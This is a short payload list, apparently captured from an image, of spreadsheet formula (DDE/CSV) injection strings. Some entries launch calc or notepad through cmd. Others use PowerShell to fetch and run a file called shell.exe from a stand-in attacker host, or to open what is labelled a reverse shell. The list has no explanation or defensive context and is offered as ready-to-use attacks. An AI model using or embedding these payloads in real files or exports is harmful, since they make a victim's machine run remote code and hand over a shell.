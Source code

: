 <pre>
Open Calculator:
%0A-3+3+cmd|' /C calc'!D2

Reverse Shell:
=cmd|'/C powershell IEX(wget <URL shortner to payload>)'!A0
  
Download and Run payload:
=cmd|’ /C powershell Invoke-WebRequest “http://www.attacker.com/shell.exe” -OutFile “$env:Temp\shell.exe”; Start-Process “$env:Temp\shell.exe”‘!A1

DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

</pre>
